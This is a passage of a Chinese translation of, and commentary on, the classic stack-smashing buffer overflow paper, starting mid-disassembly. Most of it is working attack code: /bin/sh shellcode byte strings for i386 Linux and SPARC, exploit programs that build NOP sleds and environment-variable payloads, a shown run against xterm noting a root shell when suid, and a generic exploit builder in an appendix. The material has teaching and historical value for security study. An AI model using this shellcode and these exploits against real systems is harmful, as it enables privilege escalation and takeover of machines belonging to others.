0x8000153 :movl $0x1,%eax
0x8000158 :movl $0x0,%ebx
0x800015d :int	$0x80
0x800015f :call 0x8000135
0x8000164 :das
0x8000165 :boundl 0x6e(%ecx),%ebp
0x8000168 :das
0x8000169 :jae 0x80001d3 <__new_exitfn+55>
0x800016b :addb %cl,0x55c35dec(%ecx)
End of assembler dump. 
(gdb) x/bx main+3 
0x8000133 :0xeb
(gdb) 
0x8000134 :0x2a
(gdb)
.
.
.
```


```c
//testsc.c
char shellcode[] = "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00" "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80" "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff" "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";
void main() { 
    int *ret;
	ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;
}
```


编译并运行：

```sh
[aleph1]$ gcc -o testsc testsc.c 
[aleph1]$ ./testsc 
$ exit 
[aleph1]$
```

ohhhhhh这成功了！但是有一个障碍。在大多数情况下，我们会试图溢出字符缓冲区。因此，shellcode中的任何空字节都将被视为字符串的结尾，复制操作将被终止。shellcode中不能有空字节，exp才能工作。让我们尝试消除空字节（同时使shellcode变小）



我们改进的代码如下

```c
//shellcodeasm2.c
void main() { 
    __asm__(" 
            jmp	0x1f 				# 2 bytes	
            popl %esi				# 1 bytes
			movl %esi,0x8(%esi) 	# 3 bytes
            xorl %eax,%eax			# 2 bytes
			movb %eax,0x7(%esi) 	# 3 bytes
            movl %eax,0xc(%esi) 	# 3 bytes
            movb $0xb,%al 			# 2 bytes
            movl %esi,%ebx			# 2 bytes
			leal 0x8(%esi),%ecx 	# 3 bytes
            leal 0xc(%esi),%edx		# 3 bytes
			int	$0x80				# 2 bytes
			xorl %ebx,%ebx 			# 2 bytes
            movl %ebx,%eax			# 2 bytes
            inc	%eax				# 1 bytes
            int	$0x80 				# 2 bytes
            call -0x24 				# 5 bytes
            .string \"/bin/sh\"		# 8 bytes
            # 46 bytes total
            "); 
}
```

然后新的测试程序如下

```c
//testsc2.c
char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";
void main() { 
    int *ret;
	ret = (int *)&ret + 2; 
    (*ret) = (int)shellcode;
}
```

```sh
[aleph1]$ gcc -o testsc2 testsc2.c 
[aleph1]$ ./testsc2 
$ exit 
[aleph1]$
```


### Writing an Exploit

让我们试着把之前的所有的东西都拼在一起。我们有**shellcode**。我们知道它一定是我们用来溢出缓冲区的字符串的一部分。我们知道必须将返回地址指向缓冲区。此示例将演示上面说的几点

```c
//overflow1.c
char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main(){ 
    char buffer[96];
    int i;
    long *long_ptr = (long *) large_string;
	for (i = 0; i < 32; i++) 
        *(long_ptr + i) = (int) buffer;
    for (i = 0; i < strlen(shellcode); i++) 
        large_string[i] = shellcode[i];
    strcpy(buffer,large_string);
} 
/*
[aleph1]$ gcc -o exploit1 exploit1.c 
[aleph1]$ ./exploit1 
$ exit exit 
[aleph1]$
*/
```


我们在上面所做的是用数组`large_string[]`的地址去填充`buffer[]`，这就是我们的代码所在的位置。然后我们将shellcode复制到`large_string[]`中。`strcpy()`将把`large_string[]`复制到`buffer[]`中，而不做任何边界检查，并且将使返回地址溢出，用代码现在所在的地址覆盖它。一旦我们到达main的末尾，它试图返回，它就会跳转到我们的代码，并执行一个shell。当我们试图使另一个程序的缓冲区溢出时，我们面临的问题是试图找出缓冲区（以及我们的代码）的地址。这个问题的答案是，对于每个程序，堆栈都将从相同的地址开始。大多数程序在任何时候都不会将超过几百或几千字节的数据推入堆栈。因此，通过知道堆栈从何处开始，我们可以尝试猜测要溢出的缓冲区将在何处。下面是一个小程序，它将打印堆栈指针：

```c
//sp.c
unsigned long get_sp(void) { 
    __asm__("movl %esp,%eax");
} 
void main() { 
    printf("0x%x\n", get_sp());
}

/* 
[aleph1]$ ./sp 
0x8000470 
[aleph1]$
*/
```

让我们假设下面这个是我们要溢出的程序

```c
//vulnerable.c
void main(int argc, char *argv[]) { 
    char buffer[512];
    if(argc > 1)
        strcpy(buffer, argv[1]);
}
```

我们可以创建一个程序，将缓冲区大小和它自身堆栈指针的偏移量（我们认为要溢出的缓冲区可能存在的位置）作为参数。我们将把溢出字符串放在一个环境变量中，这样更容易操作

```c
//exploit2.c
#include <stdlib.h> 

#define DEFAULT_OFFSET	0
#define DEFAULT_BUFFER_SIZE	512

char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) { 
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) { 
    char *buff, *ptr;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i;
    
	if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);
    
	if (!(buff = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
	}
    
	addr = get_sp() - offset;
    printf("Using address: 0x%x\n", addr);
    
	ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4) 
        *(addr_ptr++) = addr;
    
	ptr += 4;
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];
    
	buff[bsize - 1] = '\0'; 
    
    memcpy(buff,"EGG=",4);
    putenv(buff);
    system("/bin/bash");
}

```

现在我们可以尝试去猜buffer和偏移量是什么了

```sh
[aleph1]$ ./exploit2 500 
Using address: 0xbffffdb4 
[aleph1]$ ./vulnerable $EGG 
[aleph1]$ exit 
[aleph1]$ ./exploit2 600 
Using address: 0xbffffdb4 
[aleph1]$ ./vulnerable $EGG 
Illegal instruction 
[aleph1]$ exit 
[aleph1]$ ./exploit2 600 100 
Using address: 0xbffffd4c 
[aleph1]$ ./vulnerable $EGG 
Segmentation fault 
[aleph1]$ exit 
[aleph1]$ ./exploit2 600 200 
Using address: 0xbffffce8 
[aleph1]$ ./vulnerable $EGG 
Segmentation fault 
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit2 600 1564 
Using address: 0xbffff794 
[aleph1]$ ./vulnerable $EGG 
$
```


正如我们所看到的，这不是一个有效率的过程。即使我们知道堆栈的起始位置，也几乎不可能猜测偏移量。我们最多需要一百次，最坏也需要几千次。问题是我们需要精确地猜测代码的地址将从哪里开始。如果我们多猜一个字节或少猜一个字节，我们只会得到一个段错误(segmentation violation)或一个非法指令(invalid instruction)。增加机会的一种方法是用NOP指令填充溢出缓冲区的前端。几乎所有处理器都有执行空操作的`NOP`指令。它通常用于延迟执行时间。我们将利用它并用它们填充溢出缓冲区的一半。我们将把我们的shellcode放在中心，然后在她后面放上返回地址。如果幸运的话，返回地址指向nop字符串中的任何一个地方，它们就会被执行，直到到达我们的代码为止。在英特尔体系结构中，NOP指令的长度为一个字节，在机器代码中转换为`0x90`。假设堆栈从地址`0xFF`开始，`S`代表`shell`代码，`N`代表`NOP`指令，新堆栈将如下所示：




新的exp如下`exploit3.c`所示

```c
//exploit3.c
#include <stdlib.h> 
#define DEFAULT_OFFSET			0
#define DEFAULT_BUFFER_SIZE		512 
#define NOP						0x90

char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) { 
    char *buff, *ptr;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i;
    
	if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);

    if (!(buff = malloc(bsize))) { 
        printf("Can't allocate memory.\n");
        exit(0);
    }
    
	addr = get_sp() - offset;
    printf("Using address: 0x%x\n", addr);
    
	ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;
    
	for (i = 0; i < bsize/2; i++)
        buff[i] = NOP;
    
	ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];
    
	buff[bsize - 1] = '\0';
    
	memcpy(buff,"EGG=",4);
    putenv(buff);
    system("/bin/bash");
}
```

缓冲区大小的一个好选择是比我们试图溢出的缓冲区大小多大约100字节。这将把我们的代码放在我们试图溢出的缓冲区的末尾，为nop提供大量的空间，但是仍然用我们猜测的地址覆盖返回地址。我们试图溢出的缓冲区是512字节长，所以我们将使用612。让我们尝试用新的漏洞溢出测试程序：

```sh
[aleph1]$ ./exploit3 612 
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG 
$
```

哇！第一次尝试就成功了！这一变化使我们的机会增加了一百倍。现在让我们在一个缓冲区溢出的真实案例中尝试一下。我们将使用Xt库上的缓冲区溢出进行演示。对于我们的示例，我们将使用xterm（所有与Xt库链接的程序都是易受攻击的）。您必须运行X服务器并允许从本地主机连接到它，请据此设置显示变量。

> xterm 是一个 X Window System上的终端模拟器，类似现在的XShell
>
> 

```sh
[aleph1]$ export DISPLAY=:0.0 
[aleph1]$ ./exploit3 1124 
Using address: 0xbffffdb4 
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
^C 
[aleph1]$ exit 
[aleph1]$ ./exploit3 2148 100 Using address: 0xbffffd48 
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG

.... 
Warning: some arguments in previous message were lost Illegal instruction 
[aleph1]$ exit 
. 
. 
. 
[aleph1]$ ./exploit4 2148 600 
Using address: 0xbffffb54 
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG 
Warning: some arguments in previous message were lost 
bash$
```


Eureka！不到十几次尝试，我们发现了这个神奇的数字。如果xterm是以suid root安装的，那么它现在就是一个有root权限的shell了！


### Small Buffer Overflows


有时，你试图溢出的缓冲区太小，以至于shellcode无法放入其中，它将用指令而不是代码的地址覆盖返回地址，或者您可以填充字符串前面的nop太少，猜测其地址的机会微乎其微。为了从这些程序中获得一个shell，我们必须用另一种方法。只有当您可以访问程序的环境变量时，这种特殊的方法才有效。我们要做的是将shellcode放在一个环境变量中，然后用内存中这个变量的地址溢出缓冲区。此方法还增加了对漏洞利用的更改，因为您可以使容纳shell代码的环境变量尽可能大。当程序启动时，环境变量存储在堆栈的顶部，setenv（）所做的任何修改都会分配到其他地方。开始时的堆栈如下所示：

```
<strings><argv pointers>NULL<envp pointers>NULL<argc><argv>envp>
```

我们新程序会带来一个额外的变量，即包含shellcode和nop的变量的大小。我们的新漏洞现在看起来像这样：

```c
//exploit4.c
#include <stdlib.h> 

#define DEFAULT_OFFSET			0
#define DEFAULT_BUFFER_SIZE		512 
#define DEFAULT_EGG_SIZE		2048
#define NOP						0x90

char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void){
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]){
    char *buff, *ptr, *egg;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i, eggsize=DEFAULT_EGG_SIZE;
    
    if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);
    if (argc > 3) eggsize = atoi(argv[3]);
    
    if (!(buff = malloc(bsize))) { 
        printf("Can't allocate memory.\n"); 
        exit(0);
    } 
    if (!(egg = malloc(eggsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    
	addr = get_esp() - offset;
    printf("Using address: 0x%x\n", addr);
    
	ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;
    
	ptr = egg;
	for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
        *(ptr++) = NOP;
    
	for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];
    
    buff[bsize - 1] = '\0';
    egg[eggsize - 1] = '\0';
    
    memcpy(egg,"EGG=",4);
    putenv(egg);
    memcpy(buff,"RET=",4);
    putenv(buff);
    system("/bin/bash");
}
```

让我们尝试我们新的exp怎么样

```sh
[aleph1]$ ./exploit4 768 
Using address: 0xbffffdb0 
[aleph1]$ ./vulnerable $RET 
$
```

这运行起来非常有魅力，让我在xterm上试试

```sh
[aleph1]$ export DISPLAY=:0.0 
[aleph1]$ ./exploit4 2148 
Using address: 0xbffffdb0 
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET 
Warning: Color name
...°¤ÿ¿°¤ÿ¿°¤ ...
Warning: some arguments in previous message were lost 
$
```

第一次尝试就成功了！这无疑增加了我们的机会。根据漏洞利用程序与要尝试利用的程序比较的环境数据量，猜测的地址可能太低或太高。我们需要用正负偏移量进行实验。


### Finding Buffer Overflows


如上所述，缓冲区溢出是由于将更多的信息填充到缓冲区中而无法容纳的结果。由于C没有任何内置的边界检查，所以溢出通常表现为在字符数组末尾写入。C的标准库提供了许多用于复制或拼接字符串的函数，这些函数都不执行边界检查。它们包括：`strcat()`，`strcpy()`，`sprintf()`和`vsprintf()`。这些函数对以`\0`结尾的字符串起作用，并且不检查接收字符串是否溢出。`gets()`是一个函数，将从stdin的一行读取到缓冲区中，直到终止换行符或EOF。它不检查缓冲区溢出。如果您要匹配一系列非空格字符（`％s`），则`scanf()`系列函数也可能会出现问题，或匹配指定集合（`％[]`）中的非空字符序列，以及char指针指向的数组不足以容纳整个字符序列，并且尚未定义可选的最大字段宽度。如果这些函数中的任何一个的目标都是静态大小的缓冲区，并且其另一个参数是通过某种方式从用户输入派生的，则很可能利用缓冲区溢出来攻击。我们发现的另一种常见的编程构造是使用 while循环，一次将一个字符从stdin或某个文件读入缓冲区，直到到达行尾，文件末尾或其他定界符。这种类型的构造通常使用以下函数之一：`getc()`，`fgetc()`或`getchar()`。如果在while循环中没有显式检查是否有溢出，则很容易利用这些程序。最 后，grep（1）是你的朋友。开源操作系统及其开源程序的源码很容易获得。一旦您意识到许多商业操作系统工具与开源程序有相同的源码，这一切就变得非常有趣。Use the source d00d。


------


#### 附录A：Shellcode for Different Operating Systems/Architectures


i386/Linux (32bi)

```assembly
jmp		0x1f
popl 	%esi 
movl 	%esi,0x8(%esi) 
xorl 	%eax,%eax 
movb 	%eax,0x7(%esi) 
movl 	%eax,0xc(%esi) 
movb 	$0xb,%al 
movl 	%esi,%ebx l
eal 	0x8(%esi),%ecx 
leal 	0xc(%esi),%edx 
int		$0x80
xorl 	%ebx,%ebx 
movl 	%ebx,%eax 
inc		%eax
int		$0x80
call 	-0x24 
.string \"/bin/sh\"
```


SPARC/Solaris

```assembly
sethi 	0xbd89a, %l6 
or		%l6, 0x16e, %l6
sethi 	0xbdcda, %l7 
and		%sp, %sp, %o0
add		%sp, 8, %o1
xor		%o2, %o2, %o2
add		%sp, 16, %sp
std		%l6, [%sp - 16]
st		%sp, [%sp - 8]
st		%g0, [%sp - 4]
mov		0x3b, %g1
ta		8
xor		%o7, %o7, %o0
mov		1, %g1
ta		8
```


SPARC/SunOS

```assembly
sethi 	0xbd89a, %l6 
or%l6, 	0x16e, %l6
sethi 	0xbdcda, %l7 
and		%sp, %sp, %o0
add		%sp, 8, %o1
xor		%o2, %o2, %o2
add		%sp, 16, %sp
std		%l6, [%sp - 16]
st		%sp, [%sp - 8]
st		%g0, [%sp - 4]
mov		0x3b, %g1
mov		-0x1, %l5
ta		%l5 + 1
xor		%o7, %o7, %o0
mov		1, %g1
ta		%l5 + 1
```


#### 附录B：Generic Buffer Overflow Program


```c
//shellcode.h

#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE		1
char nop[] = "\x90";
char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";
unsigned long get_sp(void) { 
    __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE		4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] = "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e" "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0" "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08" "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";
unsigned long get_sp(void) { 
    __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__) 

#define NOP_SIZE
4 char nop[]="\xac\x15\xa1\x6e";
char shellcode[] = "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e" "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0" "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff" "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) { 
    __asm__("or %sp, %sp, %i0");
} 

#endif

```


```c
//eggshell.c
#include "stdio.h"
#include "shellcode.h" 
#define DEFAULT_OFFSET			0 
#define DEFAULT_BUFFER_SIZE 	512 
#define DEFAULT_EGG_SIZE		2048
void usage(void);

void main(int argc, char *argv[]) { 
    char *ptr, *bof, *egg;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;
    
    while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF) 
        switch (c) { 
            case 'a': 
                align = atoi(optarg);
                break;
			case 'b': 
                bsize = atoi(optarg);
                break;
			case 'e': 
                eggsize = atoi(optarg); 
                break;
            case 'o': 
                offset = atoi(optarg); 
                break;
            case '?': 
                usage(); 
                exit(0);
        }
    if (strlen(shellcode) > eggsize) {
        printf("Shellcode is larger the the egg.\n");
        exit(0);
    }
    if (!(bof = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    if (!(egg = malloc(eggsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    
	addr = get_sp() - offset;
    printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n", bsize, eggsize, align);
	printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);
    
    addr_ptr = (long *) bof;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;
    
    ptr = egg;
    for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
        for (n = 0; n < NOP_SIZE; n++) {
            m = (n + align) % NOP_SIZE;
            *(ptr++) = nop[m];
        }
    
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];
    
    bof[bsize - 1] = '\0';
    egg[eggsize - 1] = '\0';
    memcpy(egg,"EGG=",4);
    putenv(egg);
    memcpy(bof,"BOF=",4);
    putenv(bof);
    system("/bin/sh");
}

void usage(void) {
    (void)fprintf(stderr,
                  "usage: eggshell [-a ] [-b ] [-e ] [-o ]\n");
}
```


------


读后感


感觉这篇论文以最简洁的语言讲述了缓冲区溢出到底是如何工作的，当然只要有一丁点汇编知识和操作系统的内存相关的知识，就能轻松理解这篇论文。


